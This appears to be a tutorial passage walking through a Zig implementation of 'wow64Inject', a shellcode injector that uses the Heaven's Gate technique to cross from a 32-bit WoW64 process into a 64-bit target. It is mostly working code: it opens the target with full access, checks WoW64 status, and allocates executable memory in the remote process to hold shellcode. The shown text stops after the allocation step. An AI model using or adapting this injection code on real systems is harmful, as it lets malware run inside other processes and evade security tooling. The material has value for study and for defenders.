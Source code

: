 ### wow64Inject

First, we’ll check the parameters are all valid.

```zig
    if (process_id == 0 or shellcode_buf == null or shellcode_len == 0) {
        return 0;
    }
```

After that, we'll cast the `.text` section code bytes to function pointers.

```zig
    fn_execute64 = @ptrCast(@alignCast(&bExecute64[0]));
    fn_function64 = @ptrCast(@alignCast(&bFunction64[0]));
```

Then, it’s about to get the remote process handle to get the control of it.

```
    process_handle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, process_id);
    if (process_handle == null) {
        print("[-] OpenProcess Failed with Error: {x}\n", .{GetLastError()});
        return success;
    }
```

Once we get the handle, we’ll use the `is_process_wow64` function to check the conditions to use Heaven’s Gate.

```zig
    if (isProcessWow64(GetCurrentProcess()) == 0) {
        print("[-] Current process is not a Wow64 process\n", .{});
        if (process_handle) |handle| {
            _ = CloseHandle(handle);
        }
        return success;
    } else {
        print("[*] Current process is Wow64\n", .{});
    }

    if (isProcessWow64(process_handle.?) != 0) {
        print("[-] Remote process {d} is a Wow64 process\n", .{process_id});
        if (process_handle) |handle| {
            _ = CloseHandle(handle);
        }
        return success;
    }

```

Next, we need to allocate a executable memory in the remote process and write the shellcode into it.

```zig
    virtual_memory = VirtualAllocEx(process_handle.?, null, shellcode_len, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (virtual_memory == null) {
        print("[-] VirtualAllocEx Failed with Error: {d}\n", .{GetLastError()});
        if (process_handle) |handle| {
            _ = CloseHandle(handle);
        }
        return success;
    }
```
